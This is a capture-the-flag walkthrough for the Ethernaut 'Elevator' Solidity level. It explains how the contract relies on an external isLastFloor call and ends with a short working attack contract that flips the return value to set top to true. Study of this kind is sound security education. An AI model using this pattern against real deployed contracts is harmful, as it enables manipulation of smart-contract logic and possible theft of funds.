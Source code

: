 
The `Building` interface defines a function `isLastFloor` that returns whether a given floor is the last one. The `Elevator` contract’s `goTo` function calls `isLastFloor` on an external `Building` contract to check if a floor is the last floor. If the floor is not the last, it updates the elevator’s current floor and checks again to update its top floor status.


We get the following help, to beat this level:


*“This elevator won’t let you reach the top of your building. Right?*


*Things that might help:*


* *Sometimes solidity is not good at keeping promises.*
* *This*`*Elevator*`*expects to be used from a*`*Building*`*.”*


The `goTo` function in the `Elevator` contract relies on the external `Building` contract’s `isLastFloor` function to determine whether the specified floor is the top floor. If the `Building` contract is implemented in a way that always returns `false` for `isLastFloor`, the `Elevator` contract will never recognize any floor as the top floor (`top` will never be set to `true`), effectively preventing the elevator from reaching what it believes to be the top of the building.


How to Exploit
--------------


By alternating the return value of `isLastFloor`, another contract can trick the `Elevator` contract into believing it has reached the top floor when it sets the floor to the desired value. This can bypass the intended logic of the `Elevator` contract, which relies on an honest `isLastFloor` implementation to function correctly.



```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import './Elevator.sol';

contract ElevatorAttack {
    bool public pwn = true;
    Elevator public target;

    constructor (address _targetAddress)  {
        target = Elevator(_targetAddress);
    }

    function isLastFloor(uint)public returns (bool){
        pwn = !pwn;
        return pwn;
    }
    function setTop(uint _floor) public {
        target.goTo(_floor);
    }
}
```
